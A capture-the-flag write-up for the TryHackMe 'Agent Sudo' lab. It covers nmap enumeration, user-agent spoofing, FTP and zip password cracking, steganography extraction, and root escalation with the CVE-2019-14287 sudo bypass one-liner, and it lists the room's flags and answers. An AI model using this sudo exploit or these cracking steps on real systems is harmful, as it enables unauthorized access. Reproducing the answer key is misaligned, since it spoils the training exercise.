# Agent Sudo

> Platform: TryHackMe
>
> Created by: DesKel
>
> Difficulty: Easy

## Reconnaisance & Enumeration

First of all, we will begin with the Nmap which requires us to answer some of the questions.
```bash
$ nmap -sSVC <TARGET-IP> -T5 -Pn -n -vvv -oA agentsudo
```
Actually, you can just use a normal Nmap command, but here is my preferences.

After finish scanning the machine, now we can answer some of the questions:



<details>
<summary><b>Question: How many open ports?</b></summary>
<b>Answer: 3</b>
</details><br>

Based on the page, it says that we need to **change the user-agent** with our **codename** to access the site.

<details>
<summary><b>Question: How you redirect yourself to a secret page?</b></summary>
<b>Answer: user-agent</b>
</details><br>

For this, I just try to **edit and resend** the request from the **Firefox Developer Tools**. In the **Network tab**, we need to **change the User-Agent** with **alphabets from A-Z** as the page already given us hint, which the **agent codename is in alphabets**.



<details>
<summary><b>Question: What is the agent name?</b></summary>
<b>Answer: chris</b>
</details><br>

## Exploitation

Then, it says that the agent that we found have weak password. I try to **crack the password** of the agent for the **FTP server**.



<details>
<summary><b>Question: FTP password</b></summary>
<b>Answer: crystal</b>
</details><br>

Then, we know that there is FTP Server which can be connect to with username and password retrieved. Then, try to retrieve the files by using the **"get"** command:
```bash
$ ftp ftp@<TARGET-IP>

ftp> ls
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.


ftp> get To_agentJ.txt

ftp> get cute-alien.jpg

ftp> get cutie.png
```



So now, let's try to read the files in our terminal.



Based on the .txt file, we need to try use our steganography skills to get the password. First, try to use binwalk for the picture.
```bash
$ binwalk cutie.png
```



There's the other .txt file that we need to recover. To extract the Zip file, we need to use binwalk with -e which will extract the file inside the picture.
```bash
$ binwalk -e cutie.png
```



Now, let's try check the extracted information. There will be our .zip file located in the newly created directory. However, we need to have a password to access the .zip file. For this, I use zip2john to crack it.
```bash
$ zip2john 8702.zip > zip.hash

$ john zip.hash
alien
```

<details>
<summary><b>Question: Zip file password</b></summary>
<b>Answer: alien</b>
</details><br>

Let's try to extract the .zip file using the password that we have cracked and read the .txt file.
```bash
$ 7z x 8702.zip

$ cat To_agentR.txt 
```



From the .txt file, I suspect it is a base64 encoded word. Try to decode it:
```bash
$ echo "QXJlYTUx" | base64 --decode
Area51
```

<details>
<summary><b>Question: steg password</b></summary>
<b>Answer: Area51</b>
</details><br>

From the question that we recently answered, I suspect that we might need to use steghide to the other picture using the password we just retrieved.
```bash
$ steghide info cute-alien.jpg
```



Yeah, it is confirmed that we need to retrieved the message.txt file from it. To retrieve it just use "extract" with "sf" following the filename at the end and read the message.txt:
```bash
$ steghide extract sf cute-alien.jpg

$ cat message.txt
```



<details>
<summary><b>Question: Who is the other agent (in full name)?</b></summary>
<b>Answer: james</b>
</details><br>

<details>
<summary><b>Question: SSH password</b></summary>
<b>Answer: hackerrules!</b>
</details><br>

Now we got the password already, we can just use it to SSH to the server and get the user flag.
```bash
$ ssh <username>@<TARGET-IP>
```



Nice, now we cat get the user.txt:
```bash
$ cat user_flag.txt
b03d975e8c92a7c04146cfa7a5a313c7
```

## 🏳️Flag: user_flag.txt
>**b03d975e8c92a7c04146cfa7a5a313c7**

Next, we need to know the incident of the image in the server. Firstly, from our device, we need to retrieve the picture from the server first:
```bash
$ scp <username>@<TARGET-IP>:Alien_autopsy.jpg /PATH/TO/YOUR/DIRECTORY
```

From the image retrieved, we need to reverse search the image. I use the Google Image search by image upload feature.

<details>
<summary><b>Question: What is the incident of the photo called?</b></summary>
<b>Answer: Roswell alien autopsy</b>
</details><br>

## Privilege Escalation

Moving on to **escalate our privileges to root**. We need to find what can we leverage to get to root.

First we try to check with the sudo permission first:
```bash
$ sudo -l
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

Now, we need to find how can we exploit this. Based on the questions, it says that it has a CVE on it. Let's find the CVE.

<details>
<summary><b>Question: CVE number for the escalation 

(Format: CVE-xxxx-xxxx)</b></summary>
<b>Answer: CVE-2019-14287</b>
</details><br>

Then, let's search from exploit-db for the [CVE PoC](https://www.exploit-db.com/exploits/47502).

```bash
$ sudo -u#-1 /bin/bash

$ whoami
root
```

Now, we need to read the **"root.txt"** file to complete this machine.



## 🏳️Flag: root.txt
>**b53a02f55b57d4439e3341834d70c062**

<details>
<summary><b>Question: (Bonus) Who is Agent R?</b></summary>
<b>Answer: DesKel</b>
</details><br>